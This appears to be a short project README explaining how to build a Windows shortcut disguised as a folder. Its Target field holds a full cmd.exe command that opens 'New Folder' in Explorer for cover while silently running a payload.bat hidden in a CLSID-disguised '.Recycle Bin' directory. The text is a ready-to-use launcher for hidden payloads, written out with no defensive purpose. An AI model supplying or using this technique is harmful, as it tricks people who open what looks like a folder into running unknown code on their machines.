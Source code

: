 **https://samdd.me**


## How to create the shortcut (.lnk)
1. Create a shortcut to any file in the root folder
2. Go to properties and change the `Target` to

<br>

    C:\Windows\System32\cmd.exe /c "explorer "%cd%\New Folder"&if exist ".Recycle Bin.{645FF040-5081-101B-9F08-00AA002F954E}\" (".Recycle Bin.{645FF040-5081-101B-9F08-00AA002F954E}\payload.bat") else (if exist ".Recycle Bin\" (".Recycle Bin\payload.bat"))"

**This basically opens the `New Folder` in explorer and then checks to see if the `.Recycle Bin` folder exists and relatively executes it.**

Make sure that the `Open in` box is left blank
